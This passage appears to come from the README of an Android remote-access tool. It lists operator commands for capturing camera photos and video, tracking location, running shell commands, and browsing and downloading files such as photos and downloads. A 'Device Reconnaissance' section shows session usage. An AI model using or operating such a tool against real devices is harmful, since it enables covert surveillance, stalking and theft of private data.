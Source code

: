 ### 📸 Camera Operations
```bash
camera_info            # Get camera capabilities
camera_photo [id:qual] # Capture photo
camera_video_start [id:dur] # Start video recording
camera_video_stop      # Stop video recording

# Examples:
camera_photo           # Default camera, high quality
camera_photo 0:high    # Back camera, high quality
camera_photo 1:medium  # Front camera, medium quality
camera_video_start 0:60 # Record 60 seconds
```

### 🌍 Location Tracking
```bash
location_providers     # Check location services
location_get          # Get current location
location_start        # Start location tracking
location_stop         # Stop location tracking
```

### ⚙️ Shell Commands
```bash
shell_check           # Check shell access
shell_exec <command>  # Execute shell command
shell_system_info     # Get system information
shell_interactive <cmd:input> # Interactive command

# Examples:
shell_exec whoami
shell_exec pwd
shell_exec ls -la /sdcard
shell_exec ps aux
shell_exec df -h
shell_interactive cat:Hello World
```

## 🎯 Common Use Cases

### Device Reconnaissance
```bash
Session[1]> device_info        # Get device details
Session[1]> shell_system_info  # Get system info
Session[1]> location_get       # Get location
Session[1]> file_dirs          # Get directory structure
```

### File Exploration
```bash
Session[1]> file_list /sdcard
Session[1]> file_list /storage/emulated/0/DCIM/Camera
Session[1]> file_list /storage/emulated/0/Download
Session[1]> file_download /sdcard/important.txt
```
